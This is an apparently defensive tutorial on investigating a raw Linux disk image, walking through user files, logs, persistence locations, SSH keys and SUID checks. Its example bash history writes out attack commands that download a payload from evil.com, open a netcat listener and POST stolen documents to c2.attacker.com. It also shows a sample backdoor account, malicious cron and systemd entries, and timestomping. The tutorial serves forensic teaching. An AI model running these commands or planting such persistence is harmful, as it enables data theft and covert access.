

You are handed a raw `.img` or `.dd` file. No running machine. No credentials. No documentation. Just an image. The suspect already wiped the physical disk. This is everything you need to investigate it.

---

## The Problem: Starting From Zero

Linux forensics intimidates investigators who come from Windows backgrounds because there is no Registry, no single centralized database of activity. Instead, Linux scatters evidence across dozens of text files, binary logs, kernel structures, and filesystem metadata.

The good news? That evidence is *everywhere*. Linux systems are extremely chatty by design — daemons log everything, the kernel tracks every process, and the filesystem preserves metadata that most users never think about.

> You don't need a running system. Everything you need is encoded in the bytes of the raw image.
{: .prompt-tip }

---

## Step 0: Mount the Image Safely (Read-Only)

Before touching anything, mount the image as **read-only**. Any write — even by the OS — changes timestamps and modifies evidence.

```bash
# On Linux analysis workstation
# Step 1: Find partition offset (in sectors)
fdisk -l suspect.img

# Example output shows Linux partition starts at sector 2048
# Sector size = 512 bytes → offset = 2048 × 512 = 1048576

# Step 2: Mount read-only with offset
sudo mount -o ro,loop,offset=1048576,noatime suspect.img /mnt/linux_image

# Or use losetup for more control
sudo losetup --find --partscan --read-only suspect.img
# Then: sudo mount -o ro,noatime /dev/loop0p1 /mnt/linux_image
```

**On Windows/FTK Imager:**
- Use Arsenal Image Mounter or FTK Imager to mount the raw image
- Always mount as read-only / write-blocked

> **Critical Rule:** Never mount an evidence image without write-blocking. A mounted writable image will have its access timestamps (`atime`) modified by every `ls` you run. This destroys your MACB timeline.
{: .prompt-danger }

---

## The Investigation Framework: What to Check and Why

Think of Linux forensics as answering seven core questions:

| # | Question | Primary Artifact(s) |
|:---|:---|:---|
| 1 | **Who used this system?** | `/etc/passwd`, `/etc/shadow`, `/home/` |
| 2 | **What did they do?** | Bash history, shell RC files |
| 3 | **When did things happen?** | Syslogs, auth logs, journal |
| 4 | **What persisted across reboots?** | Cron jobs, systemd units, init scripts |
| 5 | **What ran and when?** | `wtmp`, `btmp`, `lastlog`, process artifacts |
| 6 | **Was the network used?** | SSH known_hosts, authorized_keys, network logs |
| 7 | **Was evidence destroyed?** | Deleted files, log gaps, shred traces |

---

## Artifact 1: User Account Files — Who Existed

**Path:** `/etc/passwd`, `/etc/shadow`, `/etc/group`

These are the first files every investigator reads. They establish the **cast of characters** on the system.

### `/etc/passwd` — The User List

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
syslog:x:104:108::/home/syslog:/usr/sbin/nologin
john:x:1000:1000:John Doe,,,:/home/john:/bin/bash
backdoor_user:x:0:0::/root:/bin/bash   ← UID 0 = root privileges!
```

**Format:** `username:password_placeholder:UID:GID:GECOS:home_dir:shell`

| Field | Forensic Significance |
|:---|:---|
| **UID = 0** | Root privilege — any non-root account with UID 0 is a backdoor |
| **Home directory** | Points to where this user's artifacts live |
| **Shell = `/bin/bash`** | Interactive user — has command history |
| **Shell = `/sbin/nologin`** | Service account — cannot log in interactively |
| **GECOS field** | Often blank for malicious accounts — real users have real names |

> **Red Flag:** Any user with UID 0 other than `root` is almost always a backdoor account planted by an attacker. Check creation timestamps via `stat /etc/passwd`.
{: .prompt-warning }

### `/etc/shadow` — Password Hashes

```
john:$6$rounds=5000$salt$hash:19200:0:99999:7:::
backdoor_user:$6$rounds=5000$abc$xyz:19523:0:99999:7:::
```

The number after the last hash field (e.g. `19200`) is the **password last changed date** — days since Unix epoch (January 1, 1970). Convert it:

```bash
date -d "1970-01-01 + 19523 days"
# → 2023-06-20  ← When this password was last set
```

This timestamp tells you *when an account was created or modified* — often matching the date of initial compromise.

---

## Artifact 2: Bash History — The Command Diary

**Paths:**
- `/home/<user>/.bash_history`
- `/root/.bash_history`

This is the most immediately actionable artifact. Every command a user typed (in most configurations) is appended here.

```bash
ls /home/john/.bash_history

# Contents might reveal:
wget http://evil.com/payload.sh
chmod +x payload.sh
./payload.sh
nc -lvp 4444
tar czf /tmp/data.tar.gz /home/john/Documents/
curl -X POST http://c2.attacker.com/exfil -d @/tmp/data.tar.gz
history -c       ← Attacker tried to wipe history
rm ~/.bash_history
```

### What Bash History Tells You

| Entry Pattern | Forensic Meaning |
|:---|:---|
| `wget` / `curl` from unknown IP | File download — possibly malware delivery |
| `nc`, `ncat`, `socat` | Network connection — possibly reverse shell |
| `chmod +x` on unusual file | Made a file executable — likely execution of payload |
| `history -c` or `rm ~/.bash_history` | Anti-forensics attempt |
| `tar` / `zip` of `/home`, `/etc` | Data staging for exfiltration |
| `useradd` or `passwd` | Account manipulation |
| `crontab -e` | Persistence via cron |

> **Anti-Forensics Trap:** `history -c` clears the in-memory history buffer but does **not** erase `.bash_history` unless followed by `exit` or explicit deletion. The file on disk often survives. Additionally, even if the file was deleted, the inode may still be recoverable via `ext4` deleted inode recovery or filesystem carving.
{: .prompt-tip }

### Hidden History Artifacts Attackers Miss

```bash
# Shell session files
/home/user/.bash_sessions/
/home/user/.zsh_history          # If zsh was used
/home/user/.sh_history           # sh sessions

# Timestamps in history (if HISTTIMEFORMAT was set)
# Each command has an epoch timestamp prepended
#1685234123
wget http://evil.com/malware.sh
```

If `HISTTIMEFORMAT` was configured, you get **precise timestamps per command**. This is gold for timeline reconstruction.

---

## Artifact 3: System Logs — The System's Memory

Linux logs are split between traditional text files (syslog/rsyslog) and the binary journal (systemd-journald). A raw image will have both.

### Traditional Syslog

```
/var/log/syslog          → General system messages
/var/log/auth.log        → Authentication events (Debian/Ubuntu)
/var/log/secure          → Authentication events (RHEL/CentOS)
/var/log/kern.log        → Kernel messages
/var/log/dmesg           → Boot hardware detection log
/var/log/dpkg.log        → Package install/remove history (Debian)
/var/log/yum.log         → Package install history (RHEL)
/var/log/apt/history.log → apt transaction log (Ubuntu)
/var/log/cron            → Cron execution records
/var/log/messages        → General messages (RHEL-based)
```

### What to Look For in `auth.log` / `secure`

```
# SSH login attempts
Jun 10 01:14:23 server sshd[1234]: Accepted password for john from 192.168.1.50 port 54321 ssh2
Jun 10 01:14:23 server sshd[1234]: Failed password for root from 45.33.32.156 port 55234 ssh2

# Sudo usage — critical!
Jun 10 01:22:11 server sudo: john : TTY=pts/0 ; PWD=/home/john ; USER=root ; COMMAND=/bin/bash
Jun 10 01:22:11 server sudo: pam_unix(sudo:session): session opened for user root by john(uid=0)

# Account creation
Jun 10 01:30:05 server useradd[4521]: new user: name=backdoor, UID=0, GID=0, home=/root, shell=/bin/bash
```

| Log Entry | Why It Matters |
|:---|:---|
| `Accepted password for root` | Root SSH login — should almost never happen |
| `sudo: ... COMMAND=/bin/bash` | Privilege escalation to full root shell |
| `new user: name=X, UID=0` | Backdoor account creation |
| `Failed password` × 1000+ | Brute-force attack |
| `Invalid user X from Y` | Login attempts for non-existent accounts |

### systemd Journal (Binary)

**Path:** `/var/log/journal/<machine-id>/`

These are binary files. You need `journalctl` or a parser:

```bash
# On analysis workstation (with image mounted at /mnt/linux_image)
journalctl --directory=/mnt/linux_image/var/log/journal \
           --no-pager \
           --since "2026-06-01" \
           --until "2026-06-10"

# Filter to specific unit
journalctl --directory=/mnt/linux_image/var/log/journal \
           -u ssh.service --no-pager

# Output as JSON for scripted analysis
journalctl --directory=/mnt/linux_image/var/log/journal \
           -o json-pretty > journal_export.json
```

> **Log Gap = Red Flag:** If `/var/log/syslog` shows activity until 2:30 AM, then nothing until 5:00 AM, and then normal activity again — those 2.5 hours are suspicious. Either logs were deleted, the service was stopped, or an attacker cleared entries with `truncate -s 0 /var/log/syslog`.
{: .prompt-warning }

---

## Artifact 4: Cron Jobs and Persistence Mechanisms

**The persistence question:** How did malware survive reboots?

### System-Wide Cron

```
/etc/crontab                    ← Main cron table
/etc/cron.d/                    ← Drop-in cron jobs (per-package/app)
/etc/cron.daily/                ← Scripts run daily
/etc/cron.hourly/               ← Scripts run hourly
/etc/cron.weekly/               ← Scripts run weekly
/etc/cron.monthly/              ← Scripts run monthly
```

### Per-User Cron

```bash
# Stored as
/var/spool/cron/crontabs/<username>

# Example malicious entry:
* * * * * /tmp/.hidden_backdoor > /dev/null 2>&1
```

A cron job running every minute from `/tmp/` is an immediate red flag. Legitimate software doesn't live in `/tmp/`.

### systemd Services (Modern Persistence)

```
/etc/systemd/system/           ← System-wide services
/home/<user>/.config/systemd/user/  ← User-level services
/usr/lib/systemd/system/       ← Package-installed services
```

```bash
# What a malicious unit file looks like:
cat /etc/systemd/system/update-service.service

[Unit]
Description=System Update Service

[Service]
ExecStart=/usr/bin/python3 /var/tmp/.payload.py
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```

Examine **all** `.service` files. Malicious ones often:
- Point to binaries in `/tmp`, `/var/tmp`, or hidden directories
- Have generic names mimicking legitimate services (`update`, `helper`, `monitor`)
- Use `Restart=always` to survive crashes
- Have `ExecStartPre` commands that pull from the network

### Other Persistence Locations

```
/etc/rc.local                  ← Legacy startup script
/etc/init.d/                   ← SysV init scripts
/etc/profile.d/                ← Scripts sourced for all logins
/home/<user>/.bashrc           ← User shell init (sourced every session)
/home/<user>/.bash_profile     ← Sourced on login
/home/<user>/.profile          ← Sourced on login (POSIX)
```

> Always `grep` `.bashrc` and `.bash_profile` for unusual commands, curl/wget calls, or function definitions that shadow legitimate commands (e.g., defining a function named `sudo` that steals passwords).
{: .prompt-tip }

---

## Artifact 5: Login Records — Who Was Actually On the Machine

Linux maintains three binary databases of login activity. These are not plain text — use `last`, `lastb`, and `lastlog` to parse them, or use forensic tools against a mounted image.

| File | Tool | Contains |
|:---|:---|:---|
| `/var/log/wtmp` | `last -f /mnt/linux_image/var/log/wtmp` | All successful logins + reboots |
| `/var/log/btmp` | `lastb -f /mnt/linux_image/var/log/btmp` | Failed login attempts |
| `/var/log/lastlog` | `lastlog -R /mnt/linux_image` | Last login per account |

```bash
last -f /mnt/linux_image/var/log/wtmp

# Output:
john     pts/0        192.168.1.50     Tue Jun 10 01:14   still logged in
john     pts/1        10.0.0.5         Mon Jun  9 23:44 - 23:59  (00:15)
reboot   system boot  5.15.0-91-generic Mon Jun  9 22:00
root     tty1                          Mon Jun  9 21:58 - 22:00  (00:02)
```

**What this reconstruction tells you:**
1. System rebooted at 22:00 — possibly after malware installation required reboot
2. Root logged in via `tty1` (local console) just before reboot — physical access or KVM
3. John logged in from two different source IPs — possible credential sharing or attacker reuse

> **`wtmp` Tampering:** Sophisticated attackers modify `wtmp` to hide their sessions using tools like `logcleaner`. Look for binary gaps (unusual offsets between records) or compare `wtmp` timestamps against syslog — if syslog shows a login that `wtmp` doesn't, the binary file was modified.
{: .prompt-warning }

---

## Artifact 6: Network Artifacts — Who Did This System Talk To?

### SSH Configuration and Keys

```
/etc/ssh/sshd_config           ← SSH server configuration
/home/<user>/.ssh/             ← User SSH directory
  ├── authorized_keys          ← Public keys that can authenticate as this user
  ├── known_hosts              ← Systems this user has SSH'd to
  ├── id_rsa / id_ed25519      ← Private keys (can identify attacker's infra)
  └── config                  ← SSH client config (aliases, jump hosts)
```

**`authorized_keys` is critical** — any key here grants passwordless SSH access. An attacker planting their public key creates persistent, stealthy access.

```bash
cat /home/john/.ssh/authorized_keys
# A key that doesn't belong to John = planted backdoor
```

**`known_hosts`** shows every server this user connected to via SSH — even if they deleted their bash history. Each entry is a fingerprint of a destination host.

### Network Configuration (Clues to the Environment)

```
/etc/hosts                     ← Local DNS overrides (look for unusual entries)
/etc/resolv.conf               ← DNS servers in use
/etc/network/interfaces        ← Static IP config (Debian)
/etc/sysconfig/network-scripts/ ← RHEL network config
/var/lib/dhcp/dhclient.leases  ← DHCP history (past IP addresses)
```

### Firewall Rules

```
/etc/iptables/rules.v4         ← Saved iptables rules
/etc/nftables.conf             ← nftables config
```

Look for rules that:
- Allow inbound connections on unusual ports
- Forward traffic to internal systems (pivoting infrastructure)
- Are suspiciously empty (firewall disabled before exfiltration)

### `/etc/hosts` Hijacking

```
# Legitimate:
127.0.0.1    localhost

# Suspicious:
127.0.0.1    windowsupdate.com
127.0.0.1    virustotal.com
127.0.0.1    av-update.kaspersky.com
```

Attackers redirect security update domains to localhost to prevent the system from downloading AV updates or reaching security tools.

---

## Artifact 7: Filesystem Metadata — The Invisible Evidence

Even when files are deleted, the filesystem retains metadata. Understanding how EXT4 works is critical.

### Inode Table — The File's Identity Card

Every file on a Linux EXT4 system has an **inode** — a 256-byte structure that stores:

```
Inode 83241:
  Type: regular file
  Mode: 0100755 (executable)
  UID/GID: 0 (root-owned)
  Size: 45,312 bytes
  Timestamps:
    atime (last accessed): 2026-06-10 01:22:33
    mtime (last modified):  2026-06-09 23:45:12
    ctime (inode changed):  2026-06-09 23:45:14
    crtime (created):       2026-06-09 23:45:12
  Links: 0       ← File is deleted (no directory entries point here)
  Data blocks: 102, 103, 104, ...
```

> **Key Forensic Fact:** When a file is deleted, Linux *removes the directory entry* (the name → inode pointer) but does **not** immediately overwrite the inode or the data blocks. The inode persists until its space is reused by a new file.
{: .prompt-info }

### Recovering Deleted Files with The Sleuth Kit

```bash
# List all files including deleted (marked with *)
fls -r -l /dev/loop0p1 | grep "^\*"

# Recover specific inode
icat /dev/loop0p1 <inode_number> > recovered_file

# Or with Autopsy (GUI)
autopsy    # Point it at your mounted image
```

### MACB Timestamps: The Four Clocks on Every File

| Timestamp | Abbreviation | What Changes It |
|:---|:---|:---|
| **Modified** | M | File content was written |
| **Accessed** | A | File was read (careful — `noatime` mount suppresses this) |
| **Changed** | C | Inode metadata changed (permissions, owner, rename) |
| **Birth / Created** | B | File was created (crtime, EXT4 only) |

```bash
stat /mnt/linux_image/path/to/suspicious_file

# Output:
  File: /mnt/linux_image/tmp/svch0st
  Size: 45312     Blocks: 96     IO Block: 4096   regular file
  Inode: 83241    Links: 1
Access: 2026-06-10 01:22:33.000000000 +0000
Modify: 2026-06-09 23:45:12.000000000 +0000
Change: 2026-06-09 23:45:14.000000000 +0000
Birth:  2026-06-09 23:45:12.000000000 +0000
```

> **Anti-Forensics: Timestomping.** Attackers use `touch -t 202001010000 malware.exe` to fake MACB timestamps. But `touch` changes `mtime` and `atime` — it cannot easily change `ctime` or `crtime`. A file that claims it was modified in 2020 but has a `ctime` in 2026 has been timestomped.
{: .prompt-warning }

---

## Artifact 8: The `/proc` Filesystem (Volatile — Capture First!)

`/proc` is a virtual filesystem exposing the **live kernel state**. It doesn't exist in a disk image — but artifacts from running processes are often cached in other locations.

> If you have a live running system, capture `/proc` **before** imaging. It disappears on shutdown.
{: .prompt-danger }

What lives in `/proc` on a running system:

```
/proc/<pid>/cmdline     ← Full command line of running process
/proc/<pid>/exe         ← Symlink to the actual executable
/proc/<pid>/fd/         ← Open file descriptors (files, sockets, pipes)
/proc/<pid>/maps        ← Memory-mapped files and libraries
/proc/<pid>/net/tcp     ← Active TCP connections for this process
/proc/net/tcp           ← All system TCP connections
/proc/net/udp           ← All system UDP connections
```

**From a disk image**, you recover what was cached — but you can still analyze:

```bash
# Application caches that hint at what was running
/var/cache/
/tmp/                  ← Temporary files created by processes

# Core dumps (if enabled)
/var/crash/
/var/lib/systemd/coredump/

# Systemd service state persisted to disk
/run/systemd/          ← Sometimes preserved in image
```

---

## Artifact 9: Package Manager History — What Was Installed

This is severely underused. Package managers log everything.

### Debian/Ubuntu (APT)

```
/var/log/apt/history.log        ← Human-readable install/remove log
/var/log/apt/term.log           ← Full terminal output during installs
/var/log/dpkg.log               ← Low-level dpkg operations
```

```bash
cat /var/log/apt/history.log

Start-Date: 2026-06-09  23:40:12
Commandline: apt-get install -y nmap netcat-openbsd tcpdump
Install: nmap:amd64 (7.80+dfsg1-2), netcat-openbsd:amd64 (1.217-3), tcpdump:amd64 (4.99.1-3)
End-Date: 2026-06-09  23:40:45
```

An attacker installing `nmap`, `netcat`, `tcpdump`, `hydra`, or `john` is essentially writing their own confession.

### RHEL/CentOS (DNF/YUM)

```
/var/log/dnf.log
/var/log/yum.log
```

### Manually Downloaded Binaries

Attackers often avoid package managers and download tools directly. Check:

```
/tmp/
/var/tmp/
/dev/shm/               ← Memory-backed filesystem, nothing persists — but check for recent access
/home/<user>/Downloads/
```

---

## Artifact 10: Sudo and SUID — Privilege Escalation Evidence

### Sudo Logs

**Already covered in auth.log**, but also:

```
/etc/sudoers                    ← Who can run what as root
/etc/sudoers.d/                 ← Drop-in sudo rules
```

```bash
cat /etc/sudoers.d/johnback

# Suspicious entry:
john ALL=(ALL) NOPASSWD: ALL   ← John can run anything as root, no password!
```

### SUID Binaries — Privilege Escalation Vectors

SUID (Set User ID) binaries run with the **owner's privileges** regardless of who executes them. A SUID binary owned by root runs as root.

```bash
# Find all SUID binaries on the image
find /mnt/linux_image -perm -4000 -type f 2>/dev/null

# Legitimate:
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo

# Suspicious (should not be SUID):
/usr/bin/python3            ← Python with SUID = instant root shell
/tmp/.hidden/bash           ← Copy of bash with SUID bit
/usr/local/bin/nmap         ← SUID nmap = file read as root (GTFOBins)
```

Cross-reference any unusual SUID binary against [GTFOBins](https://gtfobins.github.io/) — a database of Unix binaries that can be used for privilege escalation.

---

## Artifact 11: `/tmp` and Hidden Files — Where Attackers Live

Attackers love `/tmp` because:
- World-writable by default
- Often excluded from backups
- Cleaned on reboot (but your image captures the pre-reboot state)

```bash
ls -la /mnt/linux_image/tmp/

# Suspicious patterns:
.hidden_dir/            ← Directories starting with "." are hidden from ls by default
..  (two dots — NOT parent dir but a malicious filename!)
svch0st                 ← Deliberate typo-squatting of svchost
update_helper.sh        ← Generic legitimate-sounding name
```

Also check:
```
/dev/shm/               ← Shared memory filesystem — malware staging area
/var/tmp/               ← Persists across reboots unlike /tmp
/run/                   ← Runtime data, cleared on reboot
```

---

## Complete Investigation Flowchart



---

## Building a Master Timeline with log2timeline / Plaso

The final step is correlating everything into a unified timeline. **Plaso** (formerly log2timeline) does this automatically.

```bash
# Install on analysis workstation
pip install plaso

# Extract all artifacts from mounted image
log2timeline.py --parsers linux,syslog,bash_history,utmp,cron \
                timeline.plaso \
                /mnt/linux_image

# Query the timeline
psort.py -o l2tcsv timeline.plaso > full_timeline.csv

# Filter to specific time window
psort.py -o l2tcsv timeline.plaso \
         "date > '2026-06-09 23:00:00' AND date < '2026-06-10 02:00:00'" \
         > incident_window.csv
```

This produces a unified, sortable CSV with every filesystem event, log entry, bash command, and login record — all on a single timeline.

---

## Quick Reference: The Complete Artifact Map

| Category | File/Path | What You're Looking For |
|:---|:---|:---|
| **Users** | `/etc/passwd` | UID 0 accounts, unusual shells |
| **Passwords** | `/etc/shadow` | Password change dates, locked accounts |
| **Command history** | `~/.bash_history` | wget, curl, nc, chmod +x, rm -rf |
| **Auth events** | `/var/log/auth.log` | Root logins, sudo abuse, failed attempts |
| **General log** | `/var/log/syslog` | Service changes, gaps, anomalies |
| **Journal** | `/var/log/journal/` | Structured systemd events |
| **Logins** | `/var/log/wtmp` | Who logged in, from where, when |
| **Failed logins** | `/var/log/btmp` | Brute-force evidence |
| **Cron** | `/var/spool/cron/` | Scheduled malware execution |
| **systemd** | `/etc/systemd/system/` | Malicious service units |
| **SSH access** | `~/.ssh/authorized_keys` | Planted backdoor keys |
| **SSH history** | `~/.ssh/known_hosts` | Where user connected via SSH |
| **Packages** | `/var/log/apt/history.log` | Attack tools installed |
| **SUID** | `find -perm -4000` | Privilege escalation binaries |
| **Temp files** | `/tmp/`, `/var/tmp/` | Malware staging, payloads |
| **Shell init** | `~/.bashrc`, `~/.profile` | Code injected into every shell |
| **Hosts file** | `/etc/hosts` | AV/security domain hijacking |
| **OS info** | `/etc/os-release` | Distro, version, build ID |
| **Timezone** | `/etc/localtime`, `/etc/timezone` | Critical for timestamp interpretation |

---

## Critical Gotchas That Burn Investigators

> **1. Timestamps are in the system's local timezone.** Always check `/etc/timezone` and `/etc/localtime` first. Convert everything to UTC before cross-referencing with external logs.
{: .prompt-warning }

> **2. `noatime` mount option.** Many modern Linux systems mount with `noatime` in `/etc/fstab` to improve performance. This means access timestamps (`atime`) are never updated — don't rely on them.
{: .prompt-warning }

> **3. Bash history is not written in real time.** Commands are buffered in memory and written to `.bash_history` when the shell exits normally. A crashed session or `kill -9` on the shell process means the last N commands may be missing.
{: .prompt-info }

> **4. Log rotation destroys evidence.** `/var/log/syslog.1`, `syslog.2.gz`, etc. are rotated old logs. Always check `.1` and `.gz` files — they may contain the incident period while the current log starts after cleanup.
{: .prompt-tip }

> **5. Timezone-naive log correlation is a disaster.** If the system clock was wrong (or deliberately set wrong), all timestamps are suspect. Cross-reference with external NTP logs or network PCAP timestamps when available.
{: .prompt-danger }

---

## TL;DR — The 10-Minute Triage Checklist

When you mount a Linux image and have 10 minutes to triage:

```bash
# 1. Who exists on this system?
cat /mnt/img/etc/passwd | grep -v nologin | grep -v false

# 2. Any UID 0 backdoors?
awk -F: '$3 == 0' /mnt/img/etc/passwd

# 3. Recent logins
last -f /mnt/img/var/log/wtmp | head -30

# 4. Last commands by each user
for h in /mnt/img/home/*; do echo "=== $h ==="; tail -50 "$h/.bash_history" 2>/dev/null; done
cat /mnt/img/root/.bash_history 2>/dev/null

# 5. Recent auth events
tail -200 /mnt/img/var/log/auth.log

# 6. Suspicious /tmp files
ls -laR /mnt/img/tmp/ /mnt/img/var/tmp/

# 7. Cron jobs
cat /mnt/img/etc/crontab
ls -la /mnt/img/var/spool/cron/crontabs/

# 8. SSH backdoors
cat /mnt/img/root/.ssh/authorized_keys
for h in /mnt/img/home/*; do cat "$h/.ssh/authorized_keys" 2>/dev/null; done

# 9. Suspicious SUID binaries
find /mnt/img -perm -4000 -type f 2>/dev/null | grep -v -E "(passwd|su$|sudo|ping|mount|umount|newgrp|chsh|chfn|pkexec|polkit)"

# 10. Package installs during incident
grep -E "(nmap|netcat|nc|hydra|john|hashcat|nikto|sqlmap|metasploit)" /mnt/img/var/log/apt/history.log 2>/dev/null
```

---

## Tools Summary

| Tool | Purpose | Platform |
|:---|:---|:---|
| **Autopsy** | Full forensic GUI for disk images | Windows / Linux |
| **The Sleuth Kit (TSK)** | Command-line filesystem analysis (`fls`, `icat`, `fsstat`) | Linux |
| **Plaso / log2timeline** | Multi-source timeline generation | Linux |
| **Volatility** | Memory forensics (if RAM dump available) | Linux / Windows |
| **Arsenal Image Mounter** | Mount raw images safely on Windows | Windows |
| **Magnet AXIOM** | Commercial full-disk forensics | Windows |
| **Eric Zimmerman's EVTXECmd** | Parse Linux-forwarded event logs | Windows |
| **KAPE** | Artifact collection from mounted images | Windows |

---

## Resources

- [The Sleuth Kit Documentation](https://www.sleuthkit.org/sleuthkit/)
- [Plaso / log2timeline Documentation](https://plaso.readthedocs.io/)
- [SANS DFIR — Linux Forensics Poster](https://www.sans.org/security-resources/posters/dfir/)
- [GTFOBins — SUID Privilege Escalation Reference](https://gtfobins.github.io/)
- [Linux Forensics — MITRE ATT&CK for Linux](https://attack.mitre.org/matrices/enterprise/linux/)
- [13Cubed — Linux Forensics YouTube Series](https://www.youtube.com/@13Cubed)
- [Forensics Wiki — EXT4 Filesystem](https://forensics.wiki/ext4/)
